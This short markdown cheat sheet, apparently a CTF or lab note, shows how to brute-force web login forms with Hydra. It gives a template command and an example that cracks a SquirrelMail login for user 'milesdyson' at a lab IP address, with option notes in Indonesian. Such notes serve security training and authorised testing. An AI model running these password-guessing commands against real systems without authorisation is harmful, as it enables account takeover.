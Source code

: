 # Hydra
Website Password Cracking (Brute Force)

### Normal Usage
```bash
$ hydra -l admin -P <wordlist> <ip machine> http-form-post '<some_url_login:some_request_body>=admin&password=^PASS^:F=<some_failed_msg>'
```

#### Example
```bash
$ hydra -l milesdyson -P log1.txt 10.10.214.7 -V http-form-post '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.'
```

#### Additionals
- `-L` : kalau ingin melakukan bruteforce username || `-l` : jika mengetahui username
- `-P` : kalau ingin melakukan bruteforce password || `-p` : jika mengetahui password


